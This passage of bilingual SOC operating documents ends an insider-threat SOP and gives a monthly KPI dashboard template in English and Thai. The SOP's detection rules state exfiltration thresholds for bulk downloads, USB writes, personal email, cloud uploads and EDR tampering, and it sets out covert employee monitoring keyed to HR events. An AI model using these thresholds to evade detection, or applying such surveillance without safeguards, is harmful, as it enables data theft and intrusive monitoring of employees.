| **Compromised** | ถูกโจมตีจากภายนอกใช้ credentials ของ insider | ไม่มี (ภายนอก) | ถูก phish, แล็ปท็อปถูกขโมย |
| **Colluding** | ร่วมมือกับ threat actor ภายนอก | จงใจ | ขายสิทธิ์เข้าถึง |

---

## Behavioral Indicators

### ตัวบ่งชี้ความเสี่ยงสูง (สืบสวนทันที)

| # | ตัวบ่งชี้ | แหล่งข้อมูล | วิธีตรวจจับ |
|:---:|:---|:---|:---|
| 1 | **เข้าถึงข้อมูลนอกบทบาท** | DLP, CASB, file audit | UEBA anomaly |
| 2 | **ดาวน์โหลด/copy ข้อมูลจำนวนมากไป USB** | EDR, DLP, print logs | Threshold rule |
| 3 | **เข้าถึงระบบ sensitive นอกเวลา** | SIEM, badge logs | Time-based rule |
| 4 | **ส่ง email ไป personal account พร้อมไฟล์แนบ** | Email gateway, DLP | DLP policy |
| 5 | **ปิด security controls** | EDR, SIEM | Agent health monitoring |
| 6 | **Upload cloud storage โดยไม่ได้รับอนุญาต** | CASB, proxy | URL category + volume |

### ตัวคูณความเสี่ยงตามบริบท

| บริบท | ตัวคูณ | แหล่ง |
|:---|:---:|:---|
| **ยื่นลาออก** | ×3 | แจ้งจาก HR |
| **อยู่ใน PIP** | ×2 | แจ้งจาก HR |
| **เข้าถึง crown jewels** | ×2 | Data classification |
| **สิทธิ์ privileged (admin/root)** | ×2 | IAM roles |
| **ผู้รับเหมา/ชั่วคราว** | ×1.5 | HR/vendor records |
| **ผลประเมินเชิงลบล่าสุด** | ×1.5 | แจ้งจาก HR |

---

## Detection Rules ใน SIEM

| Rule | Logic | Severity | MITRE |
|:---|:---|:---:|:---|
| **Bulk data download** | > 500 MB ใน 1 ชม. | P2 | T1530 |
| **USB mass storage** | USB เขียน > 100 MB | P2 | T1052.001 |
| **Email ไป personal domain** | ไฟล์แนบ > 5 MB ไป non-corporate | P3 | T1567 |
| **Cloud upload spike** | เพิ่ม > 200% vs 30-day baseline | P2 | T1567.002 |
| **เข้าถึง sensitive นอกเวลา** | 22:00–06:00 | P3 | T1530 |
| **ลาออก + data access** | HR flag + data access ภายใน 14 วัน | P2 | T1530 |
| **Security tool tampering** | EDR agent ถูกหยุด/ลบ | P1 | T1562.001 |

---

## ขั้นตอนสืบสวน

### Investigation Workflow

```mermaid
flowchart TD
    A[Insider Threat Alert] --> B[ประเมินเบื้องต้น]
    B --> C{Risk Score}
    C -->|ต่ำ| D[เพิ่มใน watchlist]
    C -->|ปานกลาง| E[สืบสวนจริงจัง<br/>แจ้ง HR & Legal]
    C -->|สูง| F[CRITICAL: Contain ทันที<br/>แจ้ง CISO]
    
    E --> G[เก็บหลักฐานแบบลับ]
    F --> H[ยกเลิกสิทธิ์ฉุกเฉิน]
    F --> G
    H --> G
    
    G --> I[สร้าง timeline]
    I --> J[สัมภาษณ์ / กระบวนการ HR]
    J --> K{ยืนยัน?}
    
    K -->|จงใจ| L[เลิกจ้าง + ดำเนินคดี]
    K -->|ประมาท| M[แก้ไข + ฝึกอบรม]
    K -->|ถูก Compromise| N[รีเซ็ต credentials + forensics]
    K -->|ไม่ยืนยัน| O[ปิดเคส + บันทึก]

    style F fill:#dc2626,color:#fff
    style L fill:#dc2626,color:#fff
```

### Checklist สืบสวน

- [ ] ประเมินเบื้องต้น — ตรวจสอบรายละเอียด alert, บริบทผู้ใช้
- [ ] ยืนยันตัวตน — ไม่ใช่ shared account
- [ ] แจ้ง HR — บังคับสำหรับการสืบสวนจริงจัง
- [ ] ปรึกษา Legal — ตรวจสอบว่าสืบสวนถูกกฎหมาย
- [ ] เก็บหลักฐาน — แบบลับ (**ห้ามแจ้งเป้าหมาย**)
- [ ] ตรวจสิทธิ์ — เอกสารทุกระบบ/ข้อมูลที่เข้าถึงได้
- [ ] สร้าง timeline — SIEM, email, badge, VPN
- [ ] ประเมินผลกระทบ — ข้อมูลอะไรถูกเข้าถึง/ถูกส่งออก
- [ ] สัมภาษณ์ — HR ต้องอยู่ด้วย
- [ ] Remediation — ดำเนินการแก้ไข
- [ ] Lessons learned — อัปเดต detection rules

---

## การป้องกัน

### Off-boarding (สำคัญมาก)

| ขั้นตอน | เวลา | ผู้รับผิดชอบ |
|:---|:---:|:---|
| ปิดทุก account | ภายใน 1 ชม. | IT |
| ยกเลิก physical access | วันเดียวกัน | Facilities |
| เก็บอุปกรณ์ | วันเดียวกัน | IT |
| ยกเลิก VPN/remote access | ภายใน 1 ชม. | IT |
| โอน data ownership | ภายใน 1 สัปดาห์ | ผู้จัดการ |
| ตรวจ activity 30 วัน | ภายใน 1 สัปดาห์ | SOC |
| Archive mailbox | ภายใน 1 วัน | IT |

---

## HR-SOC Integration

### การแจ้งบังคับจาก HR ไป SOC

| เหตุการณ์ HR | ระดับความเสี่ยง | SOC Action |
|:---|:---:|:---|
| **แจ้งลาออก/เลิกจ้าง** | 🔴 สูง | Enhanced monitoring 14 วัน |
| **PIP** | 🟠 ปานกลาง | เพิ่มใน watchlist |
| **เปลี่ยนบทบาท** | 🟡 ต่ำ | ตรวจสอบสิทธิ์ |
| **Onboard ผู้รับเหมา** | 🟡 ต่ำ | ตรวจสอบขอบเขตสิทธิ์ |
| **ดำเนินการทางวินัย** | 🟠 ปานกลาง | Watchlist 30 วัน |

---

## ข้อพิจารณาทางกฎหมาย

> ⚠️ **สำคัญ**: ปรึกษา Legal ก่อนสืบสวน insider threat เสมอ

| หัวข้อ | แนวทาง |
|:---|:---|
| **PDPA** | การ monitor พนักงานต้องแจ้งใน privacy notice |
| **สมส่วน** | ขอบเขต monitoring ต้องเหมาะสมกับความเสี่ยง |
| **Covert monitoring** | ต้องได้รับอนุญาต, บันทึกเหตุผล |
| **Monitor อุปกรณ์** | เฉพาะอุปกรณ์บริษัท (ยกเว้นมี BYOD agreement) |
| **ตรวจ email** | email บริษัทเท่านั้น, ต้องได้รับอนุมัติ Legal |
| **สัมภาษณ์** | HR ต้องร่วม, ปฏิบัติตามกฎหมายแรงงาน |

---

## ตัวชี้วัด

| ตัวชี้วัด | เป้าหมาย |
|:---|:---:|
| เวลาตรวจจับ insider threat | < 48 ชม. |
| เวลาสืบสวนเสร็จ | < 10 วันทำการ |
| False positive rate | < 40% |
| Off-boarding compliance (ปิด account < 1 ชม.) | 100% |
| HR notification compliance | 100% |
| DLP policy coverage | > 90% |

---

## Risk Scoring Model

| ปัจจัย | น้ำหนัก | ตัวอย่าง Indicator |
|:---|:---:|:---|
| **Access Level** | 25% | Admin access, database access, code repo |
| **Behavioral Anomaly** | 25% | ทำงานนอกเวลาผิดปกติ, download มากเกิน |
| **HR Factors** | 20% | PIP, resignation notice, disciplinary action |
| **Data Access** | 20% | เข้าถึงข้อมูลลับ, bulk export |
| **Technical Indicators** | 10% | USB usage, personal cloud upload |

### คำนวณคะแนนความเสี่ยง

```
Risk Score = Σ (Factor Weight × Factor Score)
โดย Factor Score = 0 (ไม่มี) / 1 (ต่ำ) / 2 (กลาง) / 3 (สูง)

ระดับ:
  0–3  = ปกติ (เฝ้าระวังมาตรฐาน)
  4–6  = เตือน (เพิ่มการ monitor)
  7–9  = สูง (สอบสวน)
  10+  = วิกฤต (ยกระดับทันที)
```

## Investigation Workflow

```mermaid
graph TD
    Trigger["🚨 Trigger Alert"] --> Triage["📋 SOC Triage"]
    Triage --> Verify{"ยืนยัน?"}
    Verify -->|False Positive| Close["ปิดเคส"]
    Verify -->|Confirmed| Investigate["🔍 สอบสวน"]
    Investigate --> Evidence["📁 รวบรวมหลักฐาน"]
    Evidence --> HR{"ต้องแจ้ง HR?"}
    HR -->|ใช่| Escalate["⬆️ ยกระดับ HR+Legal"]
    HR -->|ไม่| Monitor["👁️ เฝ้าระวังต่อ"]
    Escalate --> Action["🔒 ดำเนินการ"]
```

## เทมเพลต Investigation Report

| ส่วน | เนื้อหา |
|:---|:---|
| **Case ID** | INSIDER-YYYY-NNN |
| **Subject** | [ชื่อ/รหัสพนักงาน — ใช้ alias ก่อนยืนยัน] |
| **Trigger** | [สิ่งที่ทำให้เริ่มสอบสวน] |
| **Timeline** | [ลำดับเหตุการณ์] |
| **หลักฐาน** | [Log, screenshot, DLP alerts] |
| **ผลกระทบ** | [ข้อมูลที่ถูก access/exfiltrate] |
| **สรุป/ข้อเสนอแนะ** | [ผลสอบสวนและ action items] |

## ข้อพิจารณาทางกฎหมาย (PDPA)

| หัวข้อ | แนวปฏิบัติ |
|:---|:---|
| **สิทธิ์ในการ monitor** | ต้องมี policy ที่พนักงานรับทราบ |
| **ข้อมูลส่วนบุคคล** | Monitor เฉพาะกิจกรรมที่เกี่ยวกับงาน |
| **การเก็บหลักฐาน** | Chain of custody, encryption, access log |
| **การแจ้ง DPO** | แจ้ง DPO เมื่อพบการละเมิดข้อมูล |
| **Retention** | ลบหลักฐานที่ไม่เกี่ยวข้องหลังปิดเคส |

## Detection Use Cases

| Use Case | Log Source | Detection Logic | ระดับ |
|:---|:---|:---|:---:|
| Mass file download | DLP/CASB | > 100 files in 1 hour | 🔴 |
| After-hours access to sensitive data | SIEM | Access outside 08:00-18:00 + PII data | 🟡 |
| USB mass storage on critical host | EDR | USB device class = mass storage | 🟡 |
| Email to personal account + attachment | Email gateway | To: gmail/hotmail + attachment > 1MB | 🟡 |
| Privilege escalation attempt | AD logs | Non-admin adding self to admin group | 🔴 |
| Unusual VPN location | VPN logs | Login from country not in baseline | 🟡 |
| Badge access anomaly | Physical security | Tailgating / off-hours entry | 🟢 |

## Program Maturity Levels

| ระดับ | ลักษณะ | ตัวอย่าง |
|:---|:---|:---|
| **1 — Ad-hoc** | ไม่มี program, react เมื่อเกิดเหตุ | ตรวจสอบเมื่อ HR แจ้ง |
| **2 — Basic** | Policy + awareness training | มี acceptable use policy |
| **3 — Defined** | Technical controls + process | DLP deployed, UEBA basics |
| **4 — Managed** | Proactive monitoring + analytics | UEBA + risk scoring |
| **5 — Optimized** | Predictive, integrated with HR | ML-based anomaly + HR data feed |

## Insider Risk Indicators

### Behavioral Indicators Scoring

| Indicator | Risk Score | Detection Method |
|:---|:---|:---|
| Mass file download | +8 | DLP / UEBA |
| After-hours access | +3 | Access logs |
| Resignation notice | +5 | HR integration |
| Privilege escalation request | +4 | IAM workflow |
| USB device usage | +6 | Endpoint agent |
| Personal email forward | +7 | Email gateway |
| Print spike | +4 | Print server logs |

### Risk Score Thresholds

```
Risk Score Actions:
━━━━━━━━━━━━━━━━━━━━━━━━
0-10   ▓░░░░  Normal - Monitor only
11-20  ▓▓░░░  Elevated - Weekly review
21-30  ▓▓▓░░  High - Daily monitoring
31-40  ▓▓▓▓░  Critical - Immediate investigation
41+    ▓▓▓▓▓  Emergency - Contain & investigate
━━━━━━━━━━━━━━━━━━━━━━━━
```

### Investigation Workflow

```mermaid
flowchart LR
    A[Alert] --> B[Verify indicator]
    B --> C{Risk > 20?}
    C -->|No| D[Continue monitoring]
    C -->|Yes| E[Open investigation]
    E --> F[Gather evidence]
    F --> G{Confirmed?}
    G -->|No| H[Close & document]
    G -->|Yes| I[HR + Legal + Mgmt]
    I --> J[Containment action]
```

### Legal Compliance Checklist

| Requirement | Status | Notes |
|:---|:---|:---|
| Employee consent | ☐ | HR policy update |
| PDPA compliance | ☐ | DPO review |
| Union notification | ☐ | If applicable |
| Evidence handling | ☐ | Chain of custody |

### Program Review Cadence

| Review | Frequency |
|:---|:---|
| Policy | Annual |
| Indicators | Quarterly |

## เอกสารที่เกี่ยวข้อง

-   [Forensic Investigation](../05_Incident_Response/Forensic_Investigation.en.md) — การเก็บหลักฐาน
-   [Incident Classification](../05_Incident_Response/Incident_Classification.en.md) — จำแนก severity
-   [Escalation Matrix](../05_Incident_Response/Escalation_Matrix.en.md) — ขั้นตอน escalation
-   [Alert Tuning SOP](Alert_Tuning.en.md) — การ tune UEBA
-   [Third-Party Risk](Third_Party_Risk.en.md) — ความเสี่ยง contractor/vendor


---

## File: 06_Operations_Management/KPI_Dashboard_Template.en.md

# SOC KPI Dashboard Template

**Document ID**: OPS-SOP-013
**Version**: 1.0
**Classification**: Internal
**Last Updated**: 2026-02-15

> A ready-to-use **executive dashboard template** for monthly SOC performance reporting. Copy these sections into your BI tool (Grafana, Power BI, Kibana) or use as a manual report template.

---

## Dashboard Overview

```mermaid
graph LR
    subgraph "Executive Summary"
        A[Total Alerts]
        B[Incidents Created]
        C[MTTD / MTTR]
        D[SLA Compliance]
    end

    subgraph "Operational Detail"
        E[Alert Volume Trend]
        F[Top Categories]
        G[Analyst Workload]
        H[Detection Coverage]
    end

    subgraph "Strategic"
        I[Risk Posture]
        J[Automation Rate]
        K[Maturity Score]
        L[Budget/ROI]
    end
```

---

## Section 1: Executive Summary Cards

> 🎯 **Audience**: CISO, CTO, Board
> 📅 **Frequency**: Monthly

### Top-Line KPIs

| KPI | This Month | Last Month | Trend | Target | Status |
|:---|:---:|:---:|:---:|:---:|:---:|
| **Total Alerts** | _____ | _____ | ↑/↓ _% | — | — |
| **True Positive Rate** | ___% | ___% | ↑/↓ | ≥ 80% | 🟢/🟡/🔴 |
| **Incidents Created** | _____ | _____ | ↑/↓ _% | — | — |
| **P1/P2 Incidents** | _____ | _____ | ↑/↓ _% | — | — |
| **MTTD** (Mean Time to Detect) | ___ min | ___ min | ↑/↓ | < 15 min | 🟢/🟡/🔴 |
| **MTTR** (Mean Time to Respond) | ___ min | ___ min | ↑/↓ | < 60 min | 🟢/🟡/🔴 |
| **MTTC** (Mean Time to Contain) | ___ hrs | ___ hrs | ↑/↓ | < 4 hrs | 🟢/🟡/🔴 |
| **SLA Compliance** | ___% | ___% | ↑/↓ | ≥ 95% | 🟢/🟡/🔴 |
| **Automation Rate** | ___% | ___% | ↑/↓ | ≥ 40% | 🟢/🟡/🔴 |
| **Data Breach Count** | _____ | _____ | ↑/↓ | 0 | 🟢/🟡/🔴 |

**Status Legend**: 🟢 On Target | 🟡 Needs Attention (within 10%) | 🔴 Below Target

---

## Section 2: Alert Analytics

### 2a. Alert Volume Trend (12-month)

| Month | Total Alerts | True Positive | False Positive | TP Rate | Alerts/Analyst/Day |
|:---|:---:|:---:|:---:|:---:|:---:|
| _____ | _____ | _____ | _____ | ___% | _____ |
| _____ | _____ | _____ | _____ | ___% | _____ |
| _____ | _____ | _____ | _____ | ___% | _____ |

> 📊 **Visualization**: Line chart showing alert volume trend with TP/FP breakdown.

### 2b. Alert Categories (Top 10)

| Rank | Category | Count | % of Total | Trend | Top Source |
|:---:|:---|:---:|:---:|:---:|:---|
| 1 | ______________ | _____ | ___% | ↑/↓ | ______________ |
| 2 | ______________ | _____ | ___% | ↑/↓ | ______________ |
| 3 | ______________ | _____ | ___% | ↑/↓ | ______________ |
| 4 | ______________ | _____ | ___% | ↑/↓ | ______________ |
| 5 | ______________ | _____ | ___% | ↑/↓ | ______________ |

> 📊 **Visualization**: Donut chart or horizontal bar chart.

### 2c. Alert Sources

| Source | Count | % of Total | TP Rate | Noise Ratio |
|:---|:---:|:---:|:---:|:---:|
| SIEM | _____ | ___% | ___% | ___% |
| EDR | _____ | ___% | ___% | ___% |
| Email Gateway | _____ | ___% | ___% | ___% |
| Cloud | _____ | ___% | ___% | ___% |
| WAF / IDS | _____ | ___% | ___% | ___% |
| TI Feed Match | _____ | ___% | ___% | ___% |
| User Report | _____ | ___% | ___% | ___% |

---

## Section 3: Incident Metrics

### 3a. Incidents by Severity

| Severity | Count | % | Avg MTTR | SLA Met | SLA Breached |
|:---:|:---:|:---:|:---:|:---:|:---:|
| **P1** 🔴 | _____ | ___% | ___ min | _____ | _____ |
| **P2** 🟠 | _____ | ___% | ___ min | _____ | _____ |
| **P3** 🟡 | _____ | ___% | ___ hrs | _____ | _____ |
| **P4** 🔵 | _____ | ___% | ___ hrs | _____ | _____ |

### 3b. Incidents by Category

| Category Code | Category | Count | % | Avg Severity |
|:---:|:---|:---:|:---:|:---:|
| MAL | Malware | _____ | ___% | P__ |
| PHI | Phishing | _____ | ___% | P__ |
| UNA | Unauthorized Access | _____ | ___% | P__ |
| CLD | Cloud | _____ | ___% | P__ |
| POL | Policy Violation | _____ | ___% | P__ |
| ___ | Other | _____ | ___% | P__ |

> Reference: [Incident Classification Taxonomy](../05_Incident_Response/Incident_Classification.en.md)

### 3c. SLA Performance

```mermaid
graph LR
    subgraph "SLA Targets"
        P1[P1: Respond < 15 min] --> P1R[Met: __%]
        P2[P2: Respond < 30 min] --> P2R[Met: __%]
        P3[P3: Respond < 4 hrs] --> P3R[Met: __%]
        P4[P4: Respond < 24 hrs] --> P4R[Met: __%]
    end
```

---

## Section 4: Detection Coverage

### 4a. MITRE ATT&CK Coverage Summary

| Tactic | Techniques Covered | Total Techniques | Coverage % |
|:---|:---:|:---:|:---:|
| Initial Access | __/__ | 9 | ___% |
| Execution | __/__ | 14 | ___% |
| Persistence | __/__ | 20 | ___% |
| Privilege Escalation | __/__ | 13 | ___% |
| Defense Evasion | __/__ | 42 | ___% |
| Credential Access | __/__ | 17 | ___% |
| Discovery | __/__ | 31 | ___% |
| Lateral Movement | __/__ | 9 | ___% |
| Collection | __/__ | 17 | ___% |
| C2 | __/__ | 16 | ___% |
| Exfiltration | __/__ | 9 | ___% |
| Impact | __/__ | 14 | ___% |
| **Total** | **__/211** | **211** | **___%** |

> 📊 **Visualization**: ATT&CK Navigator heatmap (embed screenshot from MITRE ATT&CK Navigator).

### 4b. Detection Rules Health

| Metric | Value | Target | Status |
|:---|:---:|:---:|:---:|
| Total active rules | _____ | — | — |
| Rules added this month | _____ | ≥ 5 | 🟢/🟡/🔴 |
| Rules tuned/updated | _____ | ≥ 10% | 🟢/🟡/🔴 |
| Rules disabled (high FP) | _____ | < 5% | 🟢/🟡/🔴 |
| Rules with 0 hits (30 days) | _____ | < 20% | 🟢/🟡/🔴 |
| Average TP rate per rule | ___% | ≥ 70% | 🟢/🟡/🔴 |

### 4c. Log Source Health

| Category | Sources Expected | Sources Collecting | Coverage | Gaps |
|:---|:---:|:---:|:---:|:---|
| Endpoint | _____ | _____ | ___% | ______________ |
| Network | _____ | _____ | ___% | ______________ |
| Cloud | _____ | _____ | ___% | ______________ |
| Identity | _____ | _____ | ___% | ______________ |
| Application | _____ | _____ | ___% | ______________ |

> Reference: [Log Source Matrix](../06_Operations_Management/Log_Source_Matrix.en.md)

---

## Section 5: Team Performance

### 5a. Analyst Workload

| Analyst | Alerts Handled | Incidents Closed | Avg MTTR | TP Rate | Escalations |
|:---|:---:|:---:|:---:|:---:|:---:|
| ______________ | _____ | _____ | ___ min | ___% | _____ |
| ______________ | _____ | _____ | ___ min | ___% | _____ |
| ______________ | _____ | _____ | ___ min | ___% | _____ |
| **Team Average** | **_____** | **_____** | **___ min** | **___%** | **_____** |

### 5b. Training & Certification

| Metric | Value | Target |
|:---|:---:|:---:|
| Training hours completed (team) | _____ hrs | ≥ 40 hrs/person/year |
| New certifications earned | _____ | ≥ 2/person/year |
| Tabletop exercises conducted | _____ | ≥ 4/year |
| Purple team exercises | _____ | ≥ 2/year |

### 5c. Shift Coverage

| Metric | Value | Target | Status |
|:---|:---:|:---:|:---:|
| Staffing fill rate | ___% | ≥ 95% | 🟢/🟡/🔴 |
| After-hours coverage | ___% | 100% | 🟢/🟡/🔴 |
| Average shift handoff quality | ___/5 | ≥ 4/5 | 🟢/🟡/🔴 |
| Analyst attrition rate | ___% | < 15%/year | 🟢/🟡/🔴 |

---

## Section 6: Automation & Efficiency

| Metric | Value | Target | Status |
|:---|:---:|:---:|:---:|
| **SOAR playbook executions** | _____ | — | — |
| **SOAR success rate** | ___% | ≥ 95% | 🟢/🟡/🔴 |
| **Alerts auto-enriched** | ___% | ≥ 90% | 🟢/🟡/🔴 |
| **Alerts auto-resolved (P4)** | ___% | ≥ 30% | 🟢/🟡/🔴 |
| **Time saved by automation** | ___ hrs | ≥ 40 hrs/mo | 🟢/🟡/🔴 |
| **Automation catalog L2+ coverage** | ___% | ≥ 50% | 🟢/🟡/🔴 |
| **Mean Time to Enrich** | ___ sec | < 30 sec | 🟢/🟡/🔴 |

> Reference: [SOC Automation Catalog](../06_Operations_Management/SOC_Automation_Catalog.en.md)

---

## Section 7: Risk & Compliance

| Metric | Value | Target | Status |
|:---|:---:|:---:|:---:|
| Overdue vulnerability patches (critical) | _____ | 0 | 🟢/🟡/🔴 |
| Regulatory notifications on time | ___% | 100% | 🟢/🟡/🔴 |
| Compliance evidence collected | ___% | 100% | 🟢/🟡/🔴 |
| Open risk acceptances | _____ | < 10 | 🟢/🟡/🔴 |
| Audit findings (open) | _____ | 0 | 🟢/🟡/🔴 |
| PDPA breach notifications < 72 hrs | ___% | 100% | 🟢/🟡/🔴 |

---

## Section 8: Executive Narrative

> Fill this section with context, commentary, and recommendations for leadership.

### Key Highlights
1. _____________________________________________________
2. _____________________________________________________
3. _____________________________________________________

### Notable Incidents
| Date | Summary | Severity | MTTR | Status |
|:---|:---|:---:|:---:|:---:|
| _____ | _______________________________________ | P__ | ___ | Closed/Open |
| _____ | _______________________________________ | P__ | ___ | Closed/Open |

### Concerns & Risks
1. _____________________________________________________
2. _____________________________________________________

### Resource Requests
| Request | Justification | Priority | Estimated Cost |
|:---|:---|:---:|:---:|
| ______________ | _______________________________________ | P_ | $_____ |
| ______________ | _______________________________________ | P_ | $_____ |

### Next Month Focus Areas
1. _____________________________________________________
2. _____________________________________________________
3. _____________________________________________________

---

## Appendix: BI Tool Configuration

### Grafana Dashboard JSON

```json
{
  "panels": [
    {
      "title": "Total Alerts (30 days)",
      "type": "stat",
      "datasource": "SIEM",
      "query": "SELECT COUNT(*) FROM alerts WHERE timestamp >= NOW() - INTERVAL '30 days'"
    },
    {
      "title": "MTTR (P1/P2)",
      "type": "gauge",
      "datasource": "Ticketing",
      "query": "SELECT AVG(resolved_at - created_at) FROM incidents WHERE severity IN ('P1','P2') AND resolved_at IS NOT NULL"
    }
  ]
}
```

### Recommended Refresh Rates

| Dashboard Section | Refresh Rate |
|:---|:---:|
| Alert Volume (real-time) | 5 min |
| Incident Metrics | 15 min |
| SLA Compliance | 1 hour |
| Detection Coverage | Daily |
| Team Performance | Weekly |
| Executive Summary | Monthly |

---

## Related Documents

-   [SOC Metrics & KPIs](SOC_Metrics.en.md) — Full KPI definitions and formulas
-   [Log Source Matrix](Log_Source_Matrix.en.md) — Data source coverage
-   [SOC Automation Catalog](SOC_Automation_Catalog.en.md) — Automation maturity
-   [Incident Classification](../05_Incident_Response/Incident_Classification.en.md) — Category taxonomy
-   [SLA Template](SLA_Template.en.md) — SLA definitions
-   [SOC Checklists](SOC_Checklists.en.md) — Operational checklists


---

## File: 06_Operations_Management/KPI_Dashboard_Template.th.md

# SOC KPI Dashboard Template / แม่แบบ Dashboard ตัวชี้วัด SOC

**รหัสเอกสาร**: OPS-SOP-013
**เวอร์ชัน**: 1.0
**การจัดชั้นความลับ**: ใช้ภายใน
**อัปเดตล่าสุด**: 2026-02-15

> แม่แบบ **executive dashboard** สำหรับรายงานผลการดำเนินงาน SOC รายเดือน คัดลอกส่วนเหล่านี้ไปใช้ใน BI tool (Grafana, Power BI, Kibana) หรือใช้เป็นรายงาน manual

---

## ส่วนที่ 1: สรุปสำหรับผู้บริหาร

> 🎯 **กลุ่มเป้าหมาย**: CISO, CTO, คณะกรรมการ
> 📅 **ความถี่**: รายเดือน

### KPI หลัก

| KPI | เดือนนี้ | เดือนก่อน | แนวโน้ม | เป้าหมาย | สถานะ |
|:---|:---:|:---:|:---:|:---:|:---:|
| **Alert ทั้งหมด** | _____ | _____ | ↑/↓ _% | — | — |
| **True Positive Rate** | ___% | ___% | ↑/↓ | ≥ 80% | 🟢/🟡/🔴 |
| **Incident ที่สร้าง** | _____ | _____ | ↑/↓ _% | — | — |
| **P1/P2 Incidents** | _____ | _____ | ↑/↓ _% | — | — |
| **MTTD** (เวลาเฉลี่ยในการตรวจพบ) | ___ นาที | ___ นาที | ↑/↓ | < 15 นาที | 🟢/🟡/🔴 |
| **MTTR** (เวลาเฉลี่ยในการตอบสนอง) | ___ นาที | ___ นาที | ↑/↓ | < 60 นาที | 🟢/🟡/🔴 |
| **MTTC** (เวลาเฉลี่ยในการควบคุม) | ___ ชม. | ___ ชม. | ↑/↓ | < 4 ชม. | 🟢/🟡/🔴 |
| **SLA Compliance** | ___% | ___% | ↑/↓ | ≥ 95% | 🟢/🟡/🔴 |
| **Automation Rate** | ___% | ___% | ↑/↓ | ≥ 40% | 🟢/🟡/🔴 |
| **Data Breach** | _____ | _____ | ↑/↓ | 0 | 🟢/🟡/🔴 |

**สัญลักษณ์**: 🟢 ได้ตามเป้า | 🟡 ต้องดูแล (ภายใน 10%) | 🔴 ต่ำกว่าเป้า

---

## ส่วนที่ 2: Alert Analytics

### 2a. แนวโน้มปริมาณ Alert (12 เดือน)

| เดือน | Alert ทั้งหมด | True Positive | False Positive | TP Rate | Alert/Analyst/วัน |
|:---|:---:|:---:|:---:|:---:|:---:|
| _____ | _____ | _____ | _____ | ___% | _____ |
| _____ | _____ | _____ | _____ | ___% | _____ |

> 📊 **Visualization**: Line chart แสดงแนวโน้ม alert พร้อมแยก TP/FP

### 2b. หมวดหมู่ Alert (Top 10)

| อันดับ | หมวดหมู่ | จำนวน | % ของทั้งหมด | แนวโน้ม |
|:---:|:---|:---:|:---:|:---:|
| 1 | ______________ | _____ | ___% | ↑/↓ |
| 2 | ______________ | _____ | ___% | ↑/↓ |
| 3 | ______________ | _____ | ___% | ↑/↓ |

### 2c. แหล่ง Alert

| แหล่ง | จำนวน | % ของทั้งหมด | TP Rate | Noise Ratio |
|:---|:---:|:---:|:---:|:---:|
| SIEM | _____ | ___% | ___% | ___% |
| EDR | _____ | ___% | ___% | ___% |
| Email Gateway | _____ | ___% | ___% | ___% |
| Cloud | _____ | ___% | ___% | ___% |

---

## ส่วนที่ 3: ตัวชี้วัด Incident

### 3a. Incidents ตามระดับความรุนแรง

| ระดับ | จำนวน | % | Avg MTTR | SLA ผ่าน | SLA ไม่ผ่าน |
|:---:|:---:|:---:|:---:|:---:|:---:|
| **P1** 🔴 | _____ | ___% | ___ นาที | _____ | _____ |
| **P2** 🟠 | _____ | ___% | ___ นาที | _____ | _____ |
| **P3** 🟡 | _____ | ___% | ___ ชม. | _____ | _____ |
| **P4** 🔵 | _____ | ___% | ___ ชม. | _____ | _____ |

### 3b. Incidents ตามหมวดหมู่

| รหัส | หมวดหมู่ | จำนวน | % |
|:---:|:---|:---:|:---:|
| MAL | มัลแวร์ | _____ | ___% |
| PHI | Phishing | _____ | ___% |
| UNA | การเข้าถึงผิดกฎ | _____ | ___% |
| CLD | Cloud | _____ | ___% |
| POL | ละเมิดนโยบาย | _____ | ___% |

> อ้างอิง: [Incident Classification](../05_Incident_Response/Incident_Classification.en.md)

---

## ส่วนที่ 4: Detection Coverage

### 4a. MITRE ATT&CK Coverage

| Tactic | Techniques ที่ครอบคลุม | ทั้งหมด | Coverage % |
|:---|:---:|:---:|:---:|
| Initial Access | __/__ | 9 | ___% |
| Execution | __/__ | 14 | ___% |
| Persistence | __/__ | 20 | ___% |
| Defense Evasion | __/__ | 42 | ___% |
| Credential Access | __/__ | 17 | ___% |
| Lateral Movement | __/__ | 9 | ___% |
| Exfiltration | __/__ | 9 | ___% |
| Impact | __/__ | 14 | ___% |
| **รวม** | **__/211** | **211** | **___%** |

### 4b. สุขภาพ Detection Rules

| ตัวชี้วัด | ค่า | เป้าหมาย | สถานะ |
|:---|:---:|:---:|:---:|
| Rules ทั้งหมดที่ active | _____ | — | — |
| Rules ใหม่เดือนนี้ | _____ | ≥ 5 | 🟢/🟡/🔴 |
| Rules ที่ปรับปรุง | _____ | ≥ 10% | 🟢/🟡/🔴 |
| Rules ที่ disable (FP สูง) | _____ | < 5% | 🟢/🟡/🔴 |

### 4c. สุขภาพ Log Source

| หมวด | คาดหวัง | เก็บจริง | Coverage |
|:---|:---:|:---:|:---:|
| Endpoint | _____ | _____ | ___% |
| Network | _____ | _____ | ___% |
| Cloud | _____ | _____ | ___% |
| Identity | _____ | _____ | ___% |

> อ้างอิง: [Log Source Matrix](Log_Source_Matrix.en.md)

---

## ส่วนที่ 5: ผลงานทีม

### 5a. Workload ต่อ Analyst

| Analyst | Alerts | Incidents | Avg MTTR | TP Rate |
|:---|:---:|:---:|:---:|:---:|
| ______________ | _____ | _____ | ___ นาที | ___% |
| ______________ | _____ | _____ | ___ นาที | ___% |
| **ค่าเฉลี่ยทีม** | **_____** | **_____** | **___ นาที** | **___%** |

### 5b. การฝึกอบรม

| ตัวชี้วัด | ค่า | เป้าหมาย |
|:---|:---:|:---:|
| ชม. ฝึกอบรม (ทีม) | _____ ชม. | ≥ 40 ชม./คน/ปี |
| Certification ใหม่ | _____ | ≥ 2/คน/ปี |
| Tabletop exercises | _____ | ≥ 4/ปี |

---

## ส่วนที่ 6: Automation & ประสิทธิภาพ

| ตัวชี้วัด | ค่า | เป้าหมาย | สถานะ |
|:---|:---:|:---:|:---:|
| SOAR executions | _____ | — | — |
| SOAR success rate | ___% | ≥ 95% | 🟢/🟡/🔴 |
| Alert auto-enriched | ___% | ≥ 90% | 🟢/🟡/🔴 |
| Alert auto-resolved (P4) | ___% | ≥ 30% | 🟢/🟡/🔴 |
| เวลาที่ประหยัดจาก automation | ___ ชม. | ≥ 40 ชม./เดือน | 🟢/🟡/🔴 |

> อ้างอิง: [SOC Automation Catalog](SOC_Automation_Catalog.en.md)

---

## ส่วนที่ 7: ความเสี่ยง & Compliance

| ตัวชี้วัด | ค่า | เป้าหมาย | สถานะ |
|:---|:---:|:---:|:---:|
| Vulnerability patches ค้าง (critical) | _____ | 0 | 🟢/🟡/🔴 |
| การแจ้งหน่วยงานกำกับตรงเวลา | ___% | 100% | 🟢/🟡/🔴 |
